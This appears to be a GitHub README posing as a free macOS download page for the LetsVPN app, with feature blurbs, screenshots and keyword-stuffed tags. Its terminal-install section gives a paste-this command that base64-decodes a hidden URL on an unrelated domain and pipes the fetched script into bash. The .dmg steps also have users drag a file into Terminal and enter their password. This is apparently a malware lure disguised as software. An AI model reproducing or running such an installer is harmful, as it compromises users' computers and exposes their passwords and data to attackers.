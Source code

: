 # LetsVPN — Free Download for macOS 🌐
![logo](https://is1-ssl.mzstatic.com/image/thumb/Purple221/v4/6c/85/a4/6c85a435-2da6-8d7c-d1ee-a755495d57f4/AppIcon-0-0-85-220-0-0-0-0-4-0-0-0-2x-sRGB-0-0-0-0-0.png/1200x630bb.png)

Effortlessly secure your online experience with LetsVPN for macOS. Follow the step-by-step instructions below to install this lightweight, high-speed VPN solution for free and protect your privacy today!

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/letsvpn)

If the download button doesn't work, follow the terminal-based installation instructions below for a seamless setup.

## 📦 How to Install LetsVPN for macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with LetsVPN

- 🌍 **Global Server Access**: Connect to servers worldwide for unrestricted internet access.
- 🔒 **Enhanced Privacy**: Encrypt your data to stay secure on public Wi-Fi networks.
- ⚡ **High-Speed Connections**: Enjoy fast browsing and streaming with minimal latency.
- 🛠 **User-Friendly Interface**: Simple setup and intuitive controls for all users.
- 🔄 **Automatic Updates**: Stay protected with regular software updates.
- 🕵️‍♂️ **No-Logs Policy**: Browse confidently knowing your activity isn't tracked.

## About LetsVPN

LetsVPN is a powerful, free VPN solution designed specifically for macOS users who prioritize online security and unrestricted access. With its lightweight design and robust encryption protocols, LetsVPN ensures your data remains private, whether you're browsing at home or on public Wi-Fi. The software is optimized for macOS, offering seamless integration with your device for a hassle-free experience. By incorporating advanced VPN technology, LetsVPN delivers fast, reliable connections without compromising security.

The program’s intuitive interface makes it accessible to both beginners and advanced users. Whether you're looking to bypass geo-restrictions, protect sensitive data, or simply browse anonymously, LetsVPN offers a comprehensive solution. Its global network of servers allows you to connect from virtually anywhere, ensuring smooth streaming, gaming, and browsing. The free download option makes it an attractive choice for macOS users seeking a cost-effective VPN without sacrificing quality.

LetsVPN stands out for its no-logs policy, meaning your online activities are never tracked or stored. This commitment to privacy is paired with top-tier encryption standards, safeguarding your data from potential threats. The software also supports multiple protocols, allowing flexibility based on your needs, whether it’s speed for streaming or security for sensitive tasks.

Regular updates keep LetsVPN ahead of evolving online threats, ensuring your macOS device remains protected. The installation process, whether via .dmg or terminal, is straightforward, making it easy to get started. With a focus on user experience, LetsVPN minimizes setup time while maximizing performance, offering a reliable VPN solution for macOS users worldwide.

### Why Choose LetsVPN?

LetsVPN offers distinct advantages for macOS users. Its free download model eliminates cost barriers, making premium VPN features accessible to everyone. The software’s lightweight footprint ensures it runs smoothly without draining system resources, even on older macOS devices. With a global server network, high-speed connections, and a no-logs policy, LetsVPN combines affordability, performance, and privacy in one package.

## 🖼 Preview

![Main Interface](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource211/v4/f0/d9/e3/f0d9e35c-78e0-57cc-52ec-451b53150c7d/b37df821-7605-4c54-bbbf-f13940c30317__U82f1_U65873.png/643x0w.jpg)  
*Clean and intuitive LetsVPN interface for easy server selection.*

![Server Selection](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource211/v4/d8/72/85/d872852e-5b2c-8b97-047c-1ad417fa0511/a9528feb-0917-4451-9363-6e435d645711__U82f1_U65871.png/643x0w.jpg)  
*Choose from global servers for fast, secure connections.*

![Connection Status](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/06/8e/4b/068e4b1b-8baa-24eb-f627-64140cfc7434/ab641ae5-9cea-48de-82d6-c3667604efa8_macOS_-2_U82f1_U6587.png/643x0w.jpg)  
*Real-time connection status with encryption details.*

## 🔍 Tags

letsvpn, letsvpn mac, letsvpn free, letsvpn downnload, letsvpn download free, letsvpn free download, letsvpn for mac, letsvpn mac os, letsvpn free mac, free letsvpn, download letsvpn, mac letsvpn, vpn for mac, free vpn mac, download letsvpn mac
